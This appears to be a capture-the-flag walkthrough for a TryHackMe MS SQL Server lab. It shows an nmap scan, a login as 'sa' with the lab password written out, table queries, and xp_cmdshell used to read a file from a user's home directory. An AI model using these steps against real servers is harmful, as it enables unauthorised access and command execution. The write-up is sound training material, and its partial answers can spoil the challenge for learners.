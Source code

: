 ## TASK-1 There is an open port related to MS SQL Server accessible over the network. What is the port number?

Scan the system using nmap, you will find few open ports.
```
> nmap -T4 -vv <MACHINE_IP>

PORT     STATE SERVICE       REASON
22/tcp   open  ssh           syn-ack
135/tcp  open  msrpc         syn-ack
1433/tcp open  ms-sql-s      syn-ack
3389/tcp open  ms-wbt-server syn-ack

```
Microsoft SQL Server is open in port ```1433```, i.e default port.

## TASK-2 If the connection is successful, you will get a prompt. What is the prompt that you have received?


If you don't have sqsh installed on your system, run ```sudo apt install sqsh```. After that use this command to connect to the system.<br>
```sqsh -S MACHINE_IP -U sa -P t7uLKzddQzVjVFJp```

SQSH is a command line utility to connect to a relational database. Here the username is <b>sa</b> and the PASSWORD Is <b>t7uLKzddQzVjVFJp</b>.
After you use theses creds to login ```>1``` is the prompt shown.

## TASK-3 We can see four columns in the table displayed above: id, first (name), last (name), and nickname. What is the first name of the reindeer of id 9?

Use this command's to get the answer to the question.
```
1> SELECT * FROM reindeer.dbo.names;
2> go
```
Here we know the database name is reinderr and we want to fetch every names from names tables using wildcard(*).

## TASK-4 What is the destination of the trip scheduled on December 7?

For answering this question simply use use the schedule table.

```
1> SELECT * FROM reindeer.dbo.schedule;
2> go
 id                   date                destination                                                                     
	notes                                   
 -------------------- ------------------- --------------------------------------------------------------------------------
	----------------------------------------
                 2000 Dec  5 2021 12:00AM Tokyo                                                                           
	NULL                                    
                 2001 Dec  3 2021 12:00AM London                                                                          
	NULL                                    
                 2002 Dec  1 2021 12:00AM New York                                                                        
	NULL                                    
                 2003 Dec  2 2021 12:00AM Paris                                                                           
	NULL                                    
                 2004 Dec  4 2021 12:00AM California                                                                      
	NULL                                    
                 2005 Dec  7 2021 12:00AM REDACTED                                                                          
```

## TASK-5 What is the quantity available for the present “Power Bank”?

Simply repeat the same thing as done in TASK-3, replace schedule with present.

```
1> SELECT * FROM reindeer.dbo.presents;
2> go
 id          name                                                                             quantity   
 ----------- -------------------------------------------------------------------------------- -----------
         100 Blanket                                                                                  500
         101 Laptop                                                                                  1000
         102 Cooler                                                                                   250
         103 BT Speaker                                                                              1000
         104 THM Subscription                                                                      100000
         105 Alarm Clock                                                                              500
         106 Cookies                                                                                10000
         107 THM T-Shirt                                                                           100000
         108 Power Bank                                                                             REDACTED
         109 USB Hub                                                                                15000

```


## TASK-6 There is a flag hidden in the grinch user's home directory. What are its contents?

we can use xp_cmdshell to run system commands when enabled in the settings. Using this command we can find out the flag.txt file. <br>

```xp_cmdshell 'type C:\Users\grinch\Documents\flag.txt'```. The flag.txt file was inside the Documents folder.<br>Type command is used to show the contents of the file ```flag.txt```. ```THM{REDACTED}``` 

<h3><b>That's it for Day-11. Happy Hacking!</b></h3> 
